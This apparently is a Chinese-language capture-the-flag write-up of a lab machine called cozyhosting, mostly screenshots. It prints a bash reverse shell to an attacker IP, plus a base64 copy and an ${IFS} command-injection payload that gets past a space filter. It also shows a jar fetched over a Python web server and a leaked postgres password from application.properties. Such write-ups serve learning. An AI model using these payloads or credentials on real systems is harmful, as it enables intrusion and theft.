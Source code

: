 

![image](https://hackmd.io/_uploads/HylYRg8Up.png)



![image](https://hackmd.io/_uploads/Sy1UtyAST.png)


![image](https://hackmd.io/_uploads/H1aDtkCHp.png)


![image](https://hackmd.io/_uploads/By09tyCSp.png)


推測存在命令注入漏洞，使用[Reverse Shell Generator](https://www.revshells.com/)生成reverse shell，送出後結果返回不能使用空格
![image](https://hackmd.io/_uploads/r1fIVl8Up.png)


![image](https://hackmd.io/_uploads/rJk24xII6.png)


嘗試使用base64編碼，繞過過濾，成功返回reverse shell
```
sh -i >& /dev/tcp/10.10.16.69/9999 0>&1

c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNjkvOTk5OSAwPiYxCgo=

;`echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNjkvOTk5OSAwPiYxCgo="|base64${IFS}-d|bash;`
```
![image](https://hackmd.io/_uploads/HyH0wlIUa.png)

![image](https://hackmd.io/_uploads/HkuLdlULp.png)

輸入指令ls，會在當前目錄下發現一個jar檔案，使用python架一個簡易網頁伺服器，取回檔案
```
python3 -m http.server 9090
```
![image](https://hackmd.io/_uploads/ryTtFeUIa.png)
![image](https://hackmd.io/_uploads/BkMwqgLU6.png)


使用jd-gui反編譯java
![image](https://hackmd.io/_uploads/SJKX3l88a.png)

可從`application/properties`中找到`postgres`的帳密
![image](https://hackmd.io/_uploads/SkP_nlUUa.png)
```
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
